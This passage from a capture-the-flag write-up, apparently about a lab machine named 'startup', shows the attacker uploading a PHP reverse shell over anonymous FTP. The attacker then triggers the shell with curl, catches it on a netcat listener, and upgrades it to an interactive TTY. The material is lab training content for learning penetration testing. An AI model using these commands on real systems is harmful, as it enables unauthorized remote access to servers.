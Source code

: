 ```bash
ftp> cd ftp
250 Directory successfully changed.
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
229 Entering Extended Passive Mode (|||13599|)
150 Ok to send data.
100% |********************************************************************************************************************************************|  3460       23.56 MiB/s    00:00 ETA
226 Transfer complete.
3460 bytes sent in 00:00 (10.33 KiB/s)
```

Now let's set a `netcat` listener at port 443.

```bash
nc -nvlp 443
```

Then access the reverse shell using `cURL`.

```bash
❯ curl -s http://10.10.17.121/files/ftp/php-reverse-shell.php
```

Checking the listener we should have gained a shell already.

```bash
❯ nc -nvlp 443
listening on [any] 443 ...
connect to [10.11.116.52] from (UNKNOWN) [10.10.17.121] 39488
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:59:55 up  2:02,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

---
## Shell as www-data

Once we get the reverse shell, let's find a way to scale privileges, but before, we have to get a fully interactive shell, there are multiple ways but i like to do it this way: 

```bash
script /dev/null -c bash
```

Then press *Ctrl+Z* to get the process in background.

Now that you are in your machine execute the next command:

```bash
stty raw -echo;fg
```
